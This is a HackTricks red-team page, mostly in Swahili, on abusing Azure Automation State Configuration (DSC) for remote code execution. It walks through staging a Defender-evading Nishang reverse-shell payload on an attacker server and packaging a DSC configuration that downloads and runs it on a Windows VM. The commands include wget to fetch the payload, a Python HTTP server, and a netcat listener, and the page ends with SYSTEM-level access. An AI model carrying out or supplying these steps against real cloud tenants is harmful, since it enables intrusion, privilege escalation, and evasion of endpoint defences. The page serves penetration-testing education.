 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Mchakato huu unahusisha kuanzisha miundombinu ya seva ya mbali ili kuhifadhi payload iliyobadilishwa ya Nishang `Invoke-PowerShellTcp.ps1`, inayoitwa `RevPS.ps1`, iliyoundwa ili kupita Windows Defender. Payload inatolewa kutoka kwa mashine ya Kali Linux yenye IP `40.84.7.74` kwa kutumia seva rahisi ya HTTP ya Python. Operesheni inatekelezwa kupitia hatua kadhaa:

#### Step 1 — Create Files

* **Files Required:** Inahitajika skripti mbili za PowerShell:
1. `reverse_shell_config.ps1`: Faili ya Desired State Configuration (DSC) inayopata na kutekeleza payload. Inapatikana kutoka [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Skripti ya kuchapisha usanidi kwa VM, inapatikana kwenye [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
* **Customization:** Vigezo na parameta katika faili hizi lazima zibadilishwe ili kufaa mazingira maalum ya mtumiaji, ikiwa ni pamoja na majina ya rasilimali, njia za faili, na vitambulisho vya seva/payload.

#### Step 2 — Zip Configuration File

* Faili ya `reverse_shell_config.ps1` inashirikiwa katika faili la `.zip`, ikifanya iwe tayari kwa uhamishaji kwenda kwenye Akaunti ya Hifadhi ya Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Weka Muktadha wa Hifadhi & Pakia

* Faili la usanidi lililoshonwa linapakiwa kwenye kontena la Hifadhi la Azure lililowekwa awali, azure-pentest, kwa kutumia cmdlet ya Azure Set-AzStorageBlobContent.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

* Seva ya Kali inashusha mzigo wa RevPS.ps1 kutoka kwenye hifadhi ya GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Skripti inahaririwa ili kubaini VM ya Windows inayolengwa na bandari ya shell ya kurudi.

#### Hatua ya 5 — Chapisha Faili la Mipangilio

* Faili la mipangilio linafanywa kazi, na kusababisha skripti ya shell ya kurudi kupelekwa kwenye eneo lililotajwa kwenye VM ya Windows.

#### Hatua ya 6 — Kuweka Payload na Kuanzisha Listener

* Python SimpleHTTPServer inaanzishwa ili kuhifadhi payload, pamoja na listener ya Netcat ili kukamata muunganisho unaokuja.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Kazi iliyoandaliwa inatekeleza payload, ikipata haki za kiwango cha SYSTEM.

#### Hitimisho

Utekelezaji wa mafanikio wa mchakato huu unafungua uwezekano mwingi wa hatua zaidi, kama vile kudondosha hati au kupanua shambulio kwa VMs nyingi. Mwongozo unahimiza kujifunza na ubunifu endelevu katika eneo la Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
